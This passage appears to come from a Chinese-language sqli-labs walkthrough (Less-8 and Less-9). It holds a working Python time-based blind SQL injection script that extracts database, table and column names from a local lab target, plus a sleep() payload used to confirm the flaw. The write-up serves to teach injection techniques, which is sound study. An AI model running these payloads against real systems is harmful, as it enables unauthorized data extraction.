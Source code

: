 
![19](/medias/sqli-labs/19.png)

### 时间盲注

```python
import requests
import string
import time
# 下划线放最后，避免当作统配符吃掉特殊字符
flags = 'abcdefghijklmnopqrstuvwxyz0123456789,-\{\}_'
flag = ""

url = "http://127.0.0.1:8080/Less-8/"
i = 1
print("脚本正在运行.......")
while True:
    
    for s in flags:
        # 爆库
        # id = "0' or if((substr((select group_concat(schema_name) from information_schema.schemata)," + str(i)+",1)='"+ s +"'),sleep(0.1),0)%23"
        # 爆表
        # id = "0' or if((substr((select group_concat(table_name) from information_schema.tables where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)%23"
        # 爆字段
        id = "0' or if((substr((select group_concat(column_name) from information_schema.columns where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)%23"
        tmp_url = url + "?id=" + id
        start = time.time()
        resp = requests.get(tmp_url)
        end = time.time()
        if end - start > 0.1:
            flag += s
            # 当盲注出正确字符时，才去盲注下一位(变量i的作用)
            i += 1
            print(f"[#]------result: {flag}")
            break
        elif end - start > 2:
            print("跑了这么久，跑完了吗？跑完我给你停了🤓👍")
            exit()
        else:
            pass
```


## Less-9

无论输入什么，页面只有`You are in...........`，只能用时间盲注了

在传入`?id=0' or if(1=1,sleep(5),sleep(5))`时，页面长时间加载，说明存在时间盲注

上题脚本，稍加修改还能用
